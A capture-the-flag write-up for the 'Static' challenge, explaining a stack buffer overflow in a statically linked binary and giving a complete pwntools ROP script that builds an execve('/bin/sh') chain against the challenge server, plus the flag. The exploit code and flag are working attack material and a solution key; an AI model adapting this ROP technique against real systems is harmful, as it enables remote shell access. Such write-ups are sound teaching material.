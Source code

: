 # Static

So I heard all about these binary exploitation attacks involving libraries and libc, and that's got me worried! I decided to statically compile all of my binaries to avoid those attack vectors. This means I don't need to worry about mitigations, right?

Right??

nc static.chal.cyberjousting.com 1350

## Challenge

Running the binary didn't give much insight as it seems to just read input, so lets do some checks and get into decompiling it.

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


```c
void vuln(void)

{
  undefined local_12 [10];
  
  read(0,local_12,256);
  return;
}
```

So again we have a very simple vuln function that has a simple buffer overflow. Now the only real differences on this guy here is that the binary is statically linked and has NX enabled. There is a stack canary but not one that we need to worry about, as shown in the vuln function decompilation.

This was my first time exploiting a statically linked binary like this. I spent a few minutes scratching my head because I knew what statically linked meant but I didn't know how exactly to exploit it. My first thought was to look for `system` in the binary, but it wasnt there. After some googling I quickly came across [this technique](https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing/rop-syscall-execv). After a little bit of reading I came to an understanding that this was a pretty simple rop challenge that just used what the binary had to offer.

There were three things I needed to achieve: overflowing into the return address, getting `/bin/sh` into writable memory, and then setting up registers for a syscall.

Using `ROPgadget` I was able to pick out some gadgets that would fit my use. They weren't perfect but we made do.

```python
from pwn import *

elf = context.binary = ELF('./static')
#p = process('./static')
p = remote('static.chal.cyberjousting.com', 1350)

#Gadgets
pop_rdi = 0x0000000000401fe0
pop_rsi = 0x00000000004062d8
pop_rax_rdx_rbx = 0x000000000045e466
mov_rax_rdx_pop_rbx = 0x0000000000467180
syscall = 0x0000000000401194
writable_mem = 0x000000000049d000
ret = pop_rdi + 1

rop = p64(ret)

#Assigning rax writable memory address and rdx the string we want
rop += p64(pop_rax_rdx_rbx)
rop += p64(writable_mem) + b"/bin/sh\x00" + p64(0)

#Moving the string into writable memory for access
rop += p64(mov_rax_rdx_pop_rbx)
rop += p64(0)

#Rax to 0x3b, rdx to 0
rop += p64(pop_rax_rdx_rbx)
rop += p64(0x3b) + p64(0) + p64(0)

#Rdi to our string and rsi to 0
rop += p64(pop_rdi)
rop += p64(writable_mem)
rop += p64(pop_rsi)
rop += p64(0)
rop += p64(syscall)

payload = b'A'*10 + rop
p.sendline(payload)
p.interactive()
```

The solve script does exactly that. It gets us into the return address, writes `/bin/sh` into rdx, then movs [rdx] into the writable memory, then fills the registers with our desired values in order to call `execve`. And after calling we have achieved a shell on the server. 

## Flag

`byuctf{too_many_options_what_do_I_chooooooose}`